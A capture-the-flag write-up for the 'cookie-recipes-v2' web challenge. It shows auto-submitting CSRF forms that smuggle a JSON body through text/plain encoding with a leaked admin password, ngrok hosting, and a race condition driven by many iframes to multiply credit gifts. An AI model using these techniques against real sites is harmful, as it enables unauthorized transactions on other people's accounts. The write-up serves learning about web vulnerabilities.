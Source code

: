 ## Premise

At first look at the site, we see login and register tabs. Once you create an account and login, we are greeted with our goal and our challenge.

### Our Goal
There is a recipe with a description "This challenge's flag" for sale for 1000 credits. We are given 100 credits to start with no visibile way of getting more. We somehow need to either steal the recipe without paying or find a way to give ourselves enough credit.


### Our Challenge
On the bottom of the page, there is a place to submit a website that the admin will view. Based on this being a web challenge with "cookies" in the title,
it's pretty clear that we'll be using the admin to get something done. 


### Source code analysis, all 800 lines :(
The source code shows us a pretty secure system. The sql is done with prepared statements and there doesn't appear to be any trickery allowed with any of the functions.
We can see that the database is seeded with an admin user that has an id of 0. We can see that there are several API endpoints that will be useful. 
By visting `/api/userInfo?id=0`, we can see the admins username and password. Unfortunately we can't login as the admin because there is a restrictive IP whitelist for 
the admin to log in. Oh well. There is an interesting function called **gift** that allows the admin user to gift 150 credits to a user. The catch is that 
a gift can only be given to a user once and there is a boolean column on user that tracks this. After receiving a gift, the database is updated and the user 
cannot receive another gift. There is a noticable lack of a CSRF token on this endpoint, but to make up for it, there's a "clever" trick:
```
  // Check admin password to prevent CSRF
  let body;
  try {
      body = await util.parseRequest(req);
  } catch (error) {
      res.writeHead(400);
      res.end();
      return;
  }
```
The problem here is that this app doesn't accept a traditional HTML form, it uses a POST request with a JSON body. HTML forms are easy to exploit with CSRF, but a POST
request with a JSON body is CSRF resistant (but not impervious). That means to exploit this, we'd either need to find XSS on the website that we can share with the admin
or we'll need to find a way to create a CSRF form that has a JSON body.

### Crafting the exploit 
First thing we want to do is reliably find a way to get the admin to gift us tokens. After looking at every value we can control, we can quickly rule out XSS.
That means we'll probably need to find a way to commit **CSRF**. To get your user id, visit the api endpoint `/api/getId`, we're going to need it for our CSRF.
#### Normal CSRF
```
<form class='chunky' action="https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=13394421154615314178">
  <label for="adminpassword">Admins Password Lol:</label><br>
  <input type="password" name="data" value="<script></srcipt>"><br>
  <input type="submit" value="Submit">
</form>

<script>

	window.onload = function(){
        $(".chunky").map(function(_, form){
    form.submit()
});
}
</script>
```
This is a traditional CSRF attempt. When the admin visits the page, the javascript automatically submits the form to the gift endpoint with my user id giving 
me 150 credits. Unfortunately it doesn't have a JSON body so this will get rejected even though it includes the admin password.

#### CSRF with a JSON body
I had to do some research to find out how to make this happen. This article was super useful https://medium.com/@osamaavvan/json-csrf-to-formdata-attack-eb65272376a2.
Basically we'd need to rely on some mutation of the form that tricks the endpoint to thinking what we submitted was JSON. We do this through some trickery with the name
attribute.
```
<form class='chunky' action="https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=15252815482492019401" method="post" enctype="text/plain">
<input type=”text” name='{"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn","padding":"' value='true"}'>
<input type="submit" value="send">
</form>
<script>
	window.onload = function(){
        $(".chunky").map(function(_, form){
    form.submit()
});
}
</script>
```
As you can see, there is a padding entry that is split up at the end of the name attribute that gets continued at the value attribute. For some reason, this 
mutates to a valid JSON body that is parsed by the app succesfully. So all we need to do is get the admin to view a page with this value and we'll get our gift.
#### Setting up a publically accessible website
I always use the following method to get a site up quickly.
``` 
php -S localhost:2020
ngrok http 2020
```
This will take your current directory, serve it on localhost:2020, and the ngrok will create a publically accesible url that maps to your localhost.
So we have our publically accessible website, all we need to do is submit it to the admin. We can see that this worked as our balance increases by 150, but 
submitting it again fails due to the column on our user row being changed. 
```
  // Make sure user has not already received a gift
  try {
      if (database.receivedGift(user_id)) {
          util.respondJSON(res, 200, result);
          return;
      }
  } catch (error) {
      res.writeHead(500);
      res.end();
      return;
  }
```
Darn... but at least we know we can hit this endpoint.
#### Getting the Flag with Race Conditions
We noticed that theres some time in the gift function between when the balance on the user is updated and when the giftReceived column is updated. This means that 
theres a possible race condition where we can hit the gift endpoint multiple times in rapid succession and we'd have our balance updated multiple times before it gets
marked that we've received a gift. 
I created a new page that would house our CSRF form in iframes. When the page loads, all the iframes will load and each will submit the form. After doing this twice 
with about 6 iframes, I saw my balance was 400. This means that it worked, normally we'd only be able to get 250 (100 starting + 150 gift). So all I needed to do 
was have a lot more iframes. The ending number of frames that got me a high enough balance to purchase the flag was 121 (but probably could've been done with more or
less). 
